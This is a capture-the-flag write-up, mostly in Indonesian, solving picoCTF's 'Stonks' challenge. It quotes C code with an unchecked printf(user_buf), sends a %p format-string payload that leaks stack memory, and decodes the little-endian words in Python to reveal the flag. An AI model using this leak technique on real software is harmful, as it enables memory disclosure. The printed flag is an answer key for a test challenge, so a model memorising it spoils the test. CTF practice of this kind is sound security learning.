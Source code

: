  nc mercury.picoctf.net 16439
 
 solve dengan cara format strings attack

```
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");
```

```
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

disini terlihat ```printf(user_buf);``` adalah format string merupakan data yang dapat di kontrol 

di awal terlihat buy_stonks(), saya melihat melihat apa yang tampak seperti file flag sedang dimuat dan isinya sedang disalin ke buffer di tumpukan:

```
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

jadi pada tumpukan itu, dapat diketahui bahwa printf() akan menarik data dari tumpukan secara berurutan untuk mencocokkan setiap penentu format dalam string format yang disediakan.
karna mengetahui ini adalah format strings attack saya menggunakan ```%p``` 

```
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x83454500x804b0000x80489c30xf7f8ed800xffffffff0x10x83431600xf7f9c1100xf7f8edc7(nil)0x83441800x10x83454300x83454500x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x626337630x656163360xffdf007d0xf7fc9af80xf7f9c4400xa01a7e000x1(nil)0xf7e2bce90xf7f9d0c00xf7f8e5c00xf7f8e0000xffdf15d80xf7e1c68d0xf7f8e5c00x8048eca0xffdf15e4(nil)0xf7fb0f090x804b0000xf7f8e0000xf7f8ee200xffdf16180xf7fb6d50
Portfolio as of Wed Jan 25 14:45:07 UTC 2023


1 shares of GBQJ
8 shares of OX
8 shares of O
18 shares of VY
9 shares of BI
9 shares of M
190 shares of FH
268 shares of B
4 shares of JTKA
283 shares of VXE
1006 shares of S
Goodbye!
```

lalu terliat banyak bilangan hex dan saya langsung convert ke ascii, setelah di decode saya melihat flag aneh yang ternyata integers little endian
setelah itu saya mendecode little endian menggunakan python

```
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}"
out = ""
temp = ""
index = 0
for char in string:
    temp += char
    index += 1
    if index%4 == 0:
        fwd = ""
        for temp_char in temp:
            fwd = temp_char + fwd
        out += fwd
        temp = ""
print(out)
```

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}�½ÿ



